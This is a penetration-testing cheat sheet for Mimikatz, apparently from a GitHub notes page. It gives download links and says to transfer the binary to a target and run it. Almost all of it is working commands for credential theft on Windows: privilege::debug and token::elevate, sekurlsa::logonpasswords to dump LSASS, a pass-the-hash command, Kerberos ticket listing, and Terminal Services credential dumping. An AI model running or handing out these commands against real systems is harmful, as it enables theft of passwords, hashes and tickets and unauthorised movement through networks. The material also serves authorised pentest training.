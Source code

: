 ## Mimikatz.exe

Mimikatz.exe is a tool that allows you to extract passwords stored in memory and perform some AD attacks (PTT, etc). Obviously at least need a low-priv user, but it usually only works as an Administrator or SYSTEM. Just transfer it to target and run the binary.

[https://www.liquidweb.com/kb/how-to-install-and-use-mimikatz/](https://www.liquidweb.com/kb/how-to-install-and-use-mimikatz/)  
[https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

Sometimes older systems require an older version of Mimikatz.exe, version 2.1.1:  
[https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/)

**Always start Mimikatz.exe session by entering:  
```bash - kali
privilege::debug  
```

```bash - kali
token::elevate
```

When I run mimikatz I usually try to run most of the below commands, or at least will dump LSASS, dump SAM, and dump secrets.

**Mimikatz.exe Cheat Sheet:**

Dump LSASS:  
```bash - kali
mimikatz privilege::debug
```

```bash - kali
mimikatz token::elevate
```

```bash - kali
mimikatz sekurlsa::logonpasswords
```

**#(Over) Pass The Hash  
```bash - kali
privilege::debug
```

```bash - kali
sekurlsa::pth /user:$USER /ntlm:$HASH /domain:$DOMAIN_NAME
```

**#List all available kerberos tickets in memory
```bash - kali
sekurlsa::tickets
```

**#Dump local Terminal Services credentials
```bash - kali
sekurlsa::tspkg
```
